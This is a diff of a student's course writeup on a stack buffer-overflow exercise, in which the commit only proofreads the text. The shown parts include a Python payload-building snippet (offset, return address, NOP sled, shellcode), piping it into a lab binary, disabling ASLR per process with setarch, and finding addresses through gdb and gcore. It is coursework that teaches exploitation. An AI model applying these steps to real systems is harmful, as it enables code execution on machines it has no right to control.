

Before and after one commit to MingoMango17/CMSC134-Writeups, a Markdown page: Machine_Problem_1/writeup.md, the part around one of its changes. Shown at 88% size. GitHub-like rendering.

Commit message:
modified and proofread mp1 writeup

````diff
--- a/Machine_Problem_1/writeup.md
+++ b/Machine_Problem_1/writeup.md
@@ -509,12 +510,10 @@ b0200afddf57b3321ec88b73cddd7d7118fbac8cb8f9c8f781d3b1a0053367cd  eggshell
 2fb5cad2ba0574d4ac536518b463de6ed4846e8f4dfa635910b71d7c1cdcc757  eggshell2
 ```
 
-As you can see, the raw bytes of Python's print output is a mess.
-The hash value are not the same.
+As you can see, the raw bytes of Python's print output is a mess and the hash values are not the same.
 Hence, Python's print function should not be used
-This can be fixed by using a standard library output.
-
-The updated code is now
+But, this can be fixed by using a standard library output.
+The updated code is now:
 
 ```python
 import sys
@@ -528,7 +527,7 @@ exploit     = OFFSET * 12 + EIP + NOP*4 + SHELLCODE
 sys.stdout.buffer.write(exploit)
 ```
 
-Checking it once again
+Checking it once again:
 
 ```sh
 $ python exploit2.py > eggshell2 && xxd eggshell2
@@ -545,32 +544,33 @@ b0200afddf57b3321ec88b73cddd7d7118fbac8cb8f9c8f781d3b1a0053367cd  eggshell2
 
 Both shellcodes are now equal.
 
-Python can now be used to exploit the vulnerable binary
+Python can now be used to exploit the vulnerable binary:
 
 ```sh
 $ python exploit.py | ./vuln
 ```
 
 This is done by piping Python's output to the input of the program.
-However, this would not work and would cause an illegal instruction error
+However, this would not work and would cause an illegal instruction error:
 
 ```sh
 [1]    1090485 done                              python exploit2.py |
        1090486 segmentation fault (core dumped)  ./vuln
 ```
 
-Because of ASLR randomizing the memory allocations everytime the program is ran.
-To disable ASLR without disabling the system's protection, one can do this
+This is because of ASLR randomizing the memory allocations everytime the program is run.
+To disable ASLR without disabling the system's protection, one can do this:
 
 ```sh
 $ python exploit.py | setarch $(uname -m) -R ./vuln
 ```
 
-This execution may or may not work as the memory addresses in GDB compared to being ran directly are different.
+This execution may or may not work as the memory addresses in GDB compared to being run directly are different.
 This can be fixed by figuring out the exact memory address.
 There are many ways to do it but the simplest one that we have already done is through GDB and attaching GDB to the process of the program.
 The process of debugging with an attached process is similar.
-First run the vulnerable program with `setarch` and open up another terminal with GDB by attaching to the vulnerable process
+
+First run the vulnerable program with `setarch` and open up another terminal with GDB by attaching to the vulnerable process:
 
 ```sh
 $ setarch $(uname -m) -R ./vuln
@@ -579,13 +579,13 @@ $ gdb -p <process id>
 
 To find the process id, use `ps aux`.
 
-And if this does not work, we can use `gcore` to dump the current memory of a process id and manually find our input
+And if this does not work, we can use `gcore` to dump the current memory of a process id and manually find our input:
 
 ```sh
 $ gcore <process id>
 ```
 
-Run the program again and find its process id
+Run the program again and find its process id:
 
 ```sh
 $ setarch $(uname -m) -R ./vuln
@@ -595,7 +595,7 @@ birb     1450296 71.4  0.0   2732  1096 pts/9    R+   10:32   5:17 ./vuln
 ```
 
 Here, the process id is `1450296`.
-We then dump the memory of the process after our input back in the program (I used `ABCD`)
+We then dump the memory of the process after our input back in the program (I used `ABCD`):
 
 ```sh
 $ gcore 1450296
````
Also changed, not shown: other parts of Machine_Problem_1/writeup.md (+31 -30 lines).
